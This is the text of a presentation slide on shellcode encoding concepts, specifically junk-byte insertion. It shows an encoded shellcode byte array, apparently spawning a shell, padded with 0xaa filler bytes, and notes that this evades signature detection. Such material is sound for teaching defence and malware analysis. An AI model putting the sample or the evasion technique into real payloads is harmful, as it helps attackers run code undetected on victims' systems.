

# en(coding|crypting) concepts:
0x41,0xaa,0xb0,0xaa,0xeb,0xaa,0xf3,0xaa,0xe7,0xaa,0x21,0xaa,0xbb,0xaa,0xeb,0xaa,0xf8,0xaa,0x22,0xaa,0xee,0xaa,0x8e,0xaa,0xad,0xaa,0xe2,0xaa,0x23,0xaa,0x4d,0xaa,0xe2,0xaa,0x29,0xaa,0x6a,0xaa,0x91,0xaa,0xe2,0xaa,0x9b,0xaa,0x5c,0xaa,0xe2,0xaa,0x9b,0xaa,0x78,0xaa,0xa5,0xaa,0xaf,0xaa,0x42,0xaa,0x4b,0xaa,0x55,0xaa,0x55,0xaa,0x55,0xaa,0x85,0xaa,0xc8,0xaa,0xc3,0xaa,0xc4,0xaa,0x85,0xaa,0xd9,0xaa,0xc2,0xaa,0xeb,0xaa,0xbb,0xbb,0xbb,0xbb,0xbb,0xbb,0xbb,0xbb,0xbb
Junk insertion / removal
Filler bytes are placed within the shellcode in order to obfuscate the code's true purpose and evade signatures.